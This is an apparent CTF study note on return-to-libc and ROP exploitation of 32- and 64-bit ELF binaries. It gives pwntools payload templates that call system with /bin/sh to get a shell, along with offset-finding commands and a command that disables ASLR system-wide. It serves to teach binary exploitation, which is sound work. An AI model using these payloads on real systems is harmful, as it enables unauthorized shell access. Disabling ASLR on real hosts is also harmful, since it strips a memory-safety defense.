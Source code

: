 ### Return to Lib-C


---

[one gadget](https://github.com/david942j/one_gadget)

ROP exploit - Return oriented programming, pass `/bin/sh` as input data for system call in libc to get shell.

```py
NX enabled - Shellcode method cannot be used
ASLR enabled - address space layout randomization to prevent boff attacks
```

Example - same as was used in `Shellcode`

`Dynamically linked` elf files, start returning to libc and try to get a shell

```py
32 bit ELF
cyclic 100
run <payload>
cyclic -l <value in EIP>
search -t string "/bin/sh", grab the address.
ldd <elf file> (different libc address everytime)
Disable aslr : echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
ldd <elf file> (same libc address everytime)
readelf -s <libc library>
```

![image](https://github.com/ckc9759/CTF_resources/assets/95117634/3e26593c-9e8f-47ff-8236-86091f1d3793)

Offset from the base of libc to system : `00045040`

![image](https://github.com/ckc9759/CTF_resources/assets/95117634/4e23a720-a72d-4615-a088-3f8ee15d33db)

![image](https://github.com/ckc9759/CTF_resources/assets/95117634/d67bc19e-4a73-43a4-9ce8-af17c67e1ad9)

```py
payload=flat(
   asm('nop')*padding, # padding up to EIP
   system, # Address of system function in libc
   0x0, # Return pointer
   binsh # Address of /bin/sh in libc
)
```

---

#### 64 bit ELF

```py
ropper --file <filename> --search "pop rdi"

payload=flat(
   asm('nop')*padding, # padding up to RIP
   pop_rdi, # pop the address into the RDI register
   binsh # Address of /bin/sh in libc
   system, # Address of system function in libc
)
```

---

#### Example

```py
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
ldd vulm-32 -> grab the libc.so.* address
readelf -s /lib32/libc.so.6 | grep system -> address of system
